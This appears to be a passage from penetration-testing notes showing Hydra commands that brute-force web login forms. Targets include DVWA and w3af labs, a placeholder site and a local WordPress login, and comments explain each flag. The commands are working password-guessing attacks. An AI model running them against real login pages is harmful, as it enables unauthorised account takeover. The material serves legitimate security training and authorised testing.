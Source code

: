 ```sh
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
"/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```




### HTTP Post Login Forms

```sh
hydra 192.168.1.69 http-post-form "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" \
-L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
# Here we specified:
 # Host = 192.168.1.69
 # Method = http-form-post
 # URL = /w3af/bruteforce/form_login/dataReceptor.php
 # Form parameters = user=^USER^&pass=^PASS^
 # Failure response = Bad login
 # Users file = users.txt
 # Password file = pass.txt
 # Threads = -t 10
 # Wait for timeout = -w 30
 # Output file = -o hydra-http-post-attack.txt
```

We can make more complicated examples, for example by specifying specific
headers or cookies with:

```sh
hydra 192.168.1.69 http-post-form "/foo.php:user=^USER^&pass=^PASS^:S=success:C=/page/cookie:H=X-Foo: Foo" \
-L users.txt -P pass.txt -t 10 -w 1 -o hydra-http-post-attack.txt
 # in this case we specify that the cookie should be page/cookie
 # cookies can be specified with C=
 # and we also added an header with H= 
 # this header is called X-Foo and has as value Foo
```


```sh
hydra -L users.txt -P words.txt https://www.site.com  https-post-form "/index.cgi:login&name=^USER^&password=^PASS^&login=Login:Not allowed" &
 # here we use https-post-form, since the website uses https
```


```sh
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
# now we check for success by using S=Location, since wordpress uses a Location
# header to redirect the user, we can think about S as a sort of grep applied to
# the HTTP response
```
